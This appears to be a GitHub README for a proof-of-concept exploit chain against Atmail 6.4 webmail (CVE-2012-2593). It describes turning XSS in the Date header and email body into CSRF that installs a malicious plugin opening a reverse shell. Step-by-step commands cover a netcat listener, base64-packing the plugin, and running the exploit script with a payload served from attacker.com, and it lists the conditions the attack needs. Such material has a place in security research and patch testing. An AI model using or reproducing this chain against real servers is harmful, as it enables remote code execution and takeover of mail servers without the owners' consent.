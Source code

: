 # Atmail XSS-CSRF-RCE Exploit Chain PoC 

atmail-rce.py: Exploits CVE-2012-2593 in Atmail's webmail interface.

atmail-csrf.js: Javascript file which leverages CVE 2012-2593 into a CSRF 
                to install a malicious plugin which executes a reverse shell

Plugin.php: Atmail plugin to be installed which calls a reverse shell

**!!Only use against servers on which you have permission to test**

## Summary
 Atmail email server version 6.4 has a XSS vulnerability in both the *Date* email header
 and the *Email Body* (via iFrame injection). This is leveraged into a CSRF using the 
 javascript XHR api to send a request with the admin user's cookie to the admin webpanel, 
 installing a malicious Plugin which executes code for a reverse shell.  

## Proof of Concept
1. Start a netcat listener 
   `nc -lvp 4444`
2. Open Plugin.php and change the IP address and Port to that of your netcat listener
3. compress Plugin using gzip and encode in base64
   `gzip -c Plugin.php | base64 | tr -d [:space:]`
4. Copy and Paste the above output into the atmail-csrf.js data variable
5. Run the atmail-rce.py script 
   `python3 ./atmail-rce.py -u attacker@localhost -r admin@localhost -x http://attacker.com/malicious.js -t http://atmail.com/ `
6. Wait until the admin user logs into their email

## Caveats
* Only works if target of XSS is an admin user of Atmail
* Only works if target is signed in to both the webmail interface and the admin interface of the server
* Only works if plugin installation is allowed on the server (on by default)
